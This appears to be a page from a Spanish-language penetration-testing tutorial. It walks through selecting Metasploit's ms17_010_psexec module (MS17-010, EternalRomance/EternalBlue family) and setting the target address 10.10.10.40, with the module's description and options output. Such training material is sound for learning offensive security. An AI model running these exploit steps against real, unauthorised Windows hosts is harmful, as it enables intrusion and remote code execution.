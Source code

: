 ```r
Description:
  This module will exploit SMB with vulnerabilities in MS17-010 to 
  achieve a write-what-where primitive. This will then be used to 
  overwrite the connection session information with as an 
  Administrator session. From there, the normal psexec payload code 
  execution is done. Exploits a type confusion between Transaction and 
  WriteAndX requests and a race condition in Transaction requests, as 
  seen in the EternalRomance, EternalChampion, and EternalSy

nergy 
  exploits. This exploit chain is more reliable than the EternalBlue 
  exploit, but requires a named pipe.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE
```

Una vez que estamos satisfechos de que el módulo seleccionado es el adecuado para nuestro propósito, necesitamos establecer algunas especificaciones para personalizar el módulo y usarlo con éxito contra nuestro host objetivo, como configurar el objetivo (`RHOST` o `RHOSTS`).

### MSF - Target Specification

```r
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
```